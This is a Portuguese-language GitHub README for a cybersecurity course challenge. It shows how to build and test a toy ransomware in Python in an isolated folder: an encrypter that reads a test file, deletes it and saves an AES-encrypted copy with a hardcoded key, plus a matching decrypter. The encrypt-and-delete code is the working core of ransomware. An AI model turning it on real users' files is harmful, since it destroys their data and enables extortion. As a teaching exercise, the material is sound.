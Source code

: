 # projeto_ransomware_DIO
Desafio ransomware Dio ciberseguranca

DESAFIO RANSOMWARE

	Em um ambiente controlado vamos realizar o necessario para testar um ransomware criado
	em ambiente linux.
	
	# Vamos criar uma pasta para isolar o teste:
		mkdir projeto-ransomware
		
	# Dentro desta pasta vamos fazer os 3 arquivos necessarios para testar o ransomware.
		> touch teste.txt [contendo um texto qualquer para ser o alvo]
		> touch encrypter.py [será o agente malicioso para fazer a ação de criptografia]
		> touch decrypter.py [será o antidoto para o agente malicioso]
		
	# No arquivo teste.txt escreva um texto qualquer:
		> este arquivo esta legivel e pronto
		
	# Para criar o arquivo de criptografar e descriptografar vc precisa instalar a 
	biblioteca do python "pyaes" com o seguinte comando: [antes, fazer algumas verificacoes necessarias]
		> sudo apt update
		> sudo apt install python3-pip
		> sudo apt install python3-pyaes
		
	# Proximo passo eh criar o arquivo 'encrypter.py'
		> import os
		> import pyaes
		
		## abrir o arquivo a ser criptografado
		> file_name = 'teste.txt'
		> file = open(file_name, 'rb')
		> file_data = file.read()
		> file.close()
		
		## remover o arquivo original
		> os.remove(file_name)
		
		## definir a chave de encriptacao
		> key = b"testeransomwares"
		> aes = pyaes.AESModeOfOperationCTR(key)
		
		## criptografar o arquivo
		> crypto_data = aes.encrypt(file_data)
		
		## salvar o criptografado
		> new_file = file_name + '.ransomwaretroll'
		> new_file = open(f'{new_file}', 'wb')
		> new_file.write(crypto_data)
		> new_file.close()
		
	# Proximo passo eh criar o arquivo 'decrypter.py'
		> import os
		> import pyaes
		
		## abrir o arquivo criptografado
		> file_name = 'teste.txt.ransomwaretroll'
		> file = open(file_name, 'rb')
		> file_data = file.read()
		> file.close()
		
		## chave de descriptografia
		> key = b"testeransomwares"
		> aes = pyaes.AESModeOfOperationCTR(key)
		> decrypt_data = aes.decrypt(file_data)
		
		## remover o arquivo original
		> os.remove(file_name)
		
		## salvar o novo arquivo descriptografado
		> new_file = 'teste.txt'
		> new_file = open(f'{new_file}', 'wb')
		> new_file.write(decrypt_data)
		> new_file.close()
		
		
	# Apos criado os arquivos, execute o arquivo encrypter.py
	# Logo verifique a pasta e ira perceber a mudanca no arquivo teste.txt contendo uma extensao no nome "teste.txt.ransomwaretroll"
	# Abra o arquivo e verifique que o conteudo do arquivo esta criptografado
	# Execute o arquivo decrypter.py para desfazer a acao.
		

